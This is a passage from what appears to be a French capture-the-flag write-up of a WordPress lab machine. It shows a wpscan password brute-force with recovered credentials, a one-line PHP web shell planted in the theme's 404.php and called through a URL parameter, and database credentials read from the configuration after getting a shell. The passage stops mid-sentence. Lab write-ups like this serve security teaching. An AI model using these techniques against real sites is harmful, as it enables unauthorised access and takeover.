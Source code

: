 et c'est parti pour le brute-force :

```bash
docker run -v /tmp/:/wordlists/ -it --rm wpscanteam/wpscan --url http://192.168.56.223/bull/ -U bully -P /wordlists/candidates.txt
```

On trouve bien un mot de passe :

```
[+] Performing password attack on Xmlrpc Multicall against 1 user/s
[SUCCESS] - bully / Bighornedbulls                                                                                                                                                                                
All Found                                                                                                                                                                                                         
Progress Time: 00:02:33 <==============================================                                                                                                         > (74 / 237) 31.22%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: bully, Password: Bighornedbulls
```

Je n'aurais pas besoin d'exploiter la faille `slideshow-gallery` car je suis admin sur le Wordpress. Je peux simplement éditer un fichier du thème.

Je préfère généralement éditer le fichier `404.php` pour y ajouter ces lignes au début :

```php
if (isset($_GET["cmd"])) { system($_GET["cmd"]); } 
die();
```

J'ai alors mon exécution de commande en appelant n'importe qu'elle page invalide du blog :

http://192.168.56.223/bull/index.php/yolo?cmd=id

## Bull In The Heather

Une fois un shell PTY récupéré je récupère les identifiants de la base de données :

```php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'bullblog');

/** MySQL database username */
define('DB_USER', 'bully');

/** MySQL database password */
define('DB_PASSWORD', 'Might3*as#FG(');
```

Ces derniers ne sont acceptés nul part. L'utilisateur courant `www-data` semble avoir les permissions pour exécuter un script bash mais ça ne fonctionne pas :
